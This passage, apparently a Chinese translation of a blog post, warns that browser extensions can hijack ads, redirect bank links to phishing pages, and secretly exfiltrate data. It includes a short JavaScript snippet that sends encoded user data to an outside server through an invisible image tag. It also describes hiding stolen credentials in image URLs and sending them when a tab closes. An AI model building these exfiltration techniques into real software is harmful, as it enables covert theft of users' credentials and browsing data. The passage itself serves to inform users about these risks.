 不仅如此，不仅仅是你的 twitter 账户的密码，你传递的所有数据，你读取的所有数据。当你在亚马逊上添加信用卡时。嘿，是我！友好的延伸，永远存在，永远期待！

## 广告替换、网络钓鱼等

作者可以用他们自己的网站替换广告，获得广告收入，用钓鱼网站替换合法网站(例如你的银行)上的链接，这样当你登录时你就不再安全了。

![](img/432849c86549407880fde559f99b6f70.png)

请注意浏览器左下角被替换的 URL

然后，正如钓鱼网站通常所做的那样，他们假装登录失败，然后将您重定向回真实的网站。然后，作者将您的设备标记为“被盗”，它将不再重定向您到那里，后续访问将无缝工作，但您的凭据会受到影响。

我知道我把这看得太简单了，因为你现在应该已经在所有东西上启用了 2FA，但是你有吗？您的所有登录都需要 SMS、OTP 或类似工具吗？

## 非法数据收集

向随机服务器发送数据可能太明显，容易被发现，但是作者可以在 dom 中插入一个不可见的图像，并通过图像源上的 [URL 参数](https://en.wikipedia.org/wiki/Query_string)传递数据。

```
var el = document.createElement('img');
el.src = "https://myserver.com?yourdataencoded
```

虽然这出现在“网络”选项卡上，但它并没有显示在“XHR”选项卡上，而“图像”选项卡上则显示了您所期望的传出/传入数据，即使作者在该调用中传递了您的数据。当然，这意味着全局 XHR 断点也不会由此触发。

一个更高级的技术是隐藏 URL 中提取的数据，但同时**为用户返回一些有明显价值的东西，**一个图标，一种字体。它可以根据 GET 请求将数据*推出*。

从`http://harm.less/dXNlcm5hbWU6cGFzc3dvcmQ/image.png`获取一个图像，不管中间的字符串是你的用户名还是密码，它都是一个图像。将数据分成多次调用，甚至是几天，从多个页面。该扩展可以从第二个选项卡中获取它收集的共享数据的图像，利用新页面加载的优势，在那里注入调用，祝你在第二十个 reddit 选项卡中找到它。

这是假设您甚至在选项卡仍然打开时发送数据，作者可以挂钩到选项卡的`onRemoved`事件并从那里发送数据。你很高兴，因为扩展没有做任何可疑的事情，就在你放松警惕的时候，它启动了。

# 但是这个扩展被很多人使用和信任！
